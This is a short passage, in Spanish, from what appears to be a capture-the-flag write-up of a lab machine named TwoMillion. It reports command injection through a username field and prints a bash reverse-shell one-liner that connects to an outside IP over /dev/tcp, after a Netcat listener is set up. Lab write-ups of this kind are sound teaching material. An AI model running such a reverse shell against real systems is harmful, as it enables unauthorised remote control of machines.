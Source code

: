 ## Exploitation

Intentamos **inyectar código** desde el campo de username y notamos que funciona, por lo que podriamos optar por ejecutar una **reverse shell** para conectarnos desde nuestra máquina.

![TwoMillion yw4rf](tm-34.png)

Primero nos ponemos en escucha con **Netcat** al puerto que utilizaremos en la **reverse shell**

![TwoMillion yw4rf](tm-35.png)

Utilizare esta **reverse shell**: `bash -c 'bash -i >&/dev/tcp/10.10.14.165/1717 0>&1';` 
